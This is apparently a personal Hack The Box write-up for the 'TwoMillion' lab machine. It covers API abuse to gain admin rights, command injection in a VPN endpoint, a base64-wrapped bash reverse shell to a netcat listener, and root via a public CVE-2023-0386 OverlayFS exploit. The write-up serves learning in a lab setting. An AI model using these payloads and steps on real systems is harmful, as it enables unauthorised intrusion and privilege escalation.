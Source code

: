 ```yaml
---
layout: single
classes: #wide
title: "TwoMillion"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [ctf, htb]
tags: [burp, api]
---
```

# TwoMillion:
![box](/_posts/htb/twomillion/img/2mil-box.png)  
Hi, this is one of the first HTB boxes I have attempted.
Having done a few boxes in the past I had a little idea of 
what I was getting myself into but, this box put me through it.  

This is the first box I have tried using guided mode and it was a very
plesant supprise. If you haven't tried the HTB guided mode I would
definitely recommend it. 

### Nmap
Nmap scan:
![nmap scan](/_posts/htb/twomillion/img/nmap.png)  
nmap scan found 2 tcp ports

### Page Exploration
Adding the ip and 2million.htb to my /etc/hosts file I navigated to
the page. Upon investagation of the page there was a join page and a login
page. The join page needed a code to get in. 

![code_login](/_posts/htb/twomillion/img/code_login.png)  

Refreshing the page and looking in the network tab presented me with some
js files. One file was called inviteapi.min.js. The one issue with this
file is it was obfuscated.
![bad_code](/_posts/htb/twomillion/img/code_found_in-invite.api.min.js.png)  
Upon deobfuscating the code you get:  
![good_code](/_posts/htb/twomillion/img/fixed_code.png)  
Little more readable right?

Within this code there is the function makeInviteCode().
Executing this function manually within the console gives an output
encrypted in ROT13 (nothing a little cyberchef cant solve). Throwing the output into cyberchef you get the hint "In order to generate the invitation code, make a POST request to /api/v1/invitation/generate".
 
Curl came in clutch being able to send the post request:  
`curl -i -L -X POST -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -b "PHPSESSID=36tguu0940aidi58fmloe" http://2million.htb/api/v1/invite/generate`

The request responded with:   
{"0":200,"success":1,"data":{"code":"Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=","format":"encoded"}}  

The code can be decrypted using the following command:   
`echo "Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=" | base64 --decode`  
My code was: `NY5T4-WKXIF-JO6JT-Q7UDZ`  

Going back to the forum now that we had a valid invite code I created
my account with the credentials:  
Username: Ryushe  
Email: Ryushe.dev@gmail.com  
Password: Ryu  

### VPN
Upon loging in I was greeted with a older verion of the current HTB
website. The most important part of the entire page was the vpn
page. This page was able to create/regenerate a valid vpn key.  

Using burp to inspect the request I noticed that the page was sending
a request to `/api/v1/user/vpn/generate`. Modifying the request a 
little to see how the website worked, I was able to see all the
different things the api could do when I navigated to `/api`. Going up
one directory would show the user all the valid api requests. 

![api](/_posts/htb/twomillion/img/api_endpoints.png)  

Notice how there is a url to generate a vpn for not only a normal user,
but for an admin as well. 

Admin has an api request that allows us to check if we are admin:  
`GET /api/v1/admin/auth`  
Sending a GET request using burp we can see that we are indeed infact
not admin :(  
![Am_admin?](/_posts/htb/twomillion/img/admin_false_burp.png)  

Now, there is another api url under the PUT category. This api link
allows the user to change admin settings. Using burp to send a
request will result in the a response saying "danger", "missing
perameter: email"

![email_not_valid](/_posts/htb/twomillion/img/Missing_email_peram.png)  

Adding the email perameter you get something that looks like this:  

![email_valid](/_posts/htb/twomillion/img/Misisng_isadmin_peram.png)  

Adding in the admin block and then checking our admin status we get:  
Note: is_admin has to be set to 1 like this `"is_admin":1`  

![admin_true](/_posts/htb/twomillion/img/admin_true.png)  

Now, is when the magic starts to happen. We're root right? Ya, remember
the api call I mentioned before `api/v1/admin/vpn/generate`? We
can now successfully call that.

Calling the `vpn/generate` using a POST burp request it asks for us to give
it a user to make the vpn for. Putting
`{"username":"Ryushe"}`
in the request I get a successful vpn generation output.  

Now, this api endpoint has a command injection vulnerability in it.
We can test this by changing the request to `{"username":"Ryushe;ls;"}`  

### Command Injection Exploit
Now that we know that there is a command injection vulnerability we can
set-up a reverse shell into the machine. Using a basic reverse shell payload
(I used a bash reverse shell) we can encrypt it for transfer using:  
`echo "bash -i >& /dev/tcp/<ip of host>/8888 0>&1" | base64 `  
Now, we want to get a nc listener on our reverse shell:  
`nc -lvnp 8888`  
Copy the ouput and put it in where it says encrypted payload:  
`echo "<output of first command>" | base64 -d | bash`  
Paste the command into the machine you are attacking a press enter.
If all went went well you should now be in the machine.

Now, looking in the admin directory we see user.txt (the first flag)  
Hmm.. we need to take over admin user  

Taking a look at the .env file I was presented with the db name as well as
the the admin username and password.  
dbname=htb_prod  
username: admin  
password: SuperDuperPass123   
running: `su admin`  
with pass: `SuperDuperPass123`  
Loggs you into the admin account. Now, that you are admin you can get the 
user.txt file in the admin home directory. 

Upon logging into the user admin you are presented with a message:  

![mail](/_posts/htb/twomillion/img/1you_have_mail.png)  

Upon looking at the /var/mail directory I found the file mail:  

![mail_contents](/_posts/htb/twomillion/img/2mail.png)  

The email gave clues to check the db config so thats where I headed next.
Logging into mysql with the valid credentials I got from the .env file.
I did not find anything upon entering the mysql db.   

I decided to take another look at the email that was sent to admin. 
Upon further inpection I found that the email was talking about the
os that was hosting their services and something to do with overlayfs. 
Currently we are on version 22.04.1 of ubuntu and
googling ubuntu 22.04.1 overlayfs vunerabilities lead me to this [article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#how-the-cve-2023-0386-vulnerability-works).  
Upon further investagation I found this [repo](https://github.com/sxlmnwb/CVE-2023-0386) that worked wonders: 
1. Clone onto host system  
2. settup a `python -m http.server`  
3. wget --recursive --no-parent <http://myip:port>
4. going to the dir with 2 different terminals I made the process and ran it with   
`./fuse ./ovlcap/lower ./gc`  
5. In the second terminal I ran `./exp` (and just like that we had root)  

![root](./img/3proof-root.png)  

I ran sudo apt install plocate (to make finding the root flag easier)  
It did not.... (ended up waiting for it to fail over and over)  

Finally, I cd'ed into the root dir and there it was waiting for me the root.txt  
Catting the file I got the flag 


![pwn](/img/Proof-of-pwn.png)  


### What I Learned
* Command injection vulnerability
* Curl -X -L <url>   
    - how to format curl for redirects and post requests  
* To try to spawn a shell earlier.. I was too caught up with 
other things I totally forgot you can spawn shells to make things easier  
Also ldconfig allows you to see lib versions.. didnt know that
* Better understanding of how to send burp requests and modify data
    - eg: Command injections

